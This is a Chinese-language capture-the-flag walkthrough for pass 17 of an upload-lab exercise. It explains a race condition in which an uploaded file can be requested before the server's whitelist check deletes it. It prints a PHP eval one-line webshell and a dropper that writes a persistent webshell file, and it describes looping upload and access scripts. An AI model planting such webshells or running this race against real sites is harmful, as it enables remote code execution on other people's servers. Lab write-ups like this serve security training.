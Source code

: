 ## 解题wp(By:独立团孙德胜Alan)
本pass主要考察条件竞争

## 1.打开第十七关

![](./img/1.png)

## 2.上传一个普通的shell.php文件

```
<?php @eval($_POST('Alan'));?>
```

![](./img/2.png)



## 3.分析代码

##### ![](./img/3.png)

##### 本Pass解除了利用文件包含漏洞，仔细读代码发现源码中先判断move_uploaded_file函数是否执行成功，然后再判断上传的文件后缀名是否在白名单中，如果不在白名单中则用unlink函数删除文件。

##### 可以通过条件竞争的方式在unlink函数执行之前访问上传文件。

## 4.我们可以通过上传一个能生成新的文件的木马，然后不停访问它

使用Burpsuite抓包上传shell.php
内容：

```
<?php fputs(fopen('Alan.php','w'),'<?php @eval($_POST["Alan"])?>’);?>
```

作用：
只要访问了shell.php文件，php文件就会成功解析执行，自动创建一个Alan.php，写入一句话木马：

```
<?php @eval($_POST["Alan"]);?>
```

然后写两个脚本，一个是上传shell.php的脚本

一个是访问/shell.php的脚本

线程拉大即可
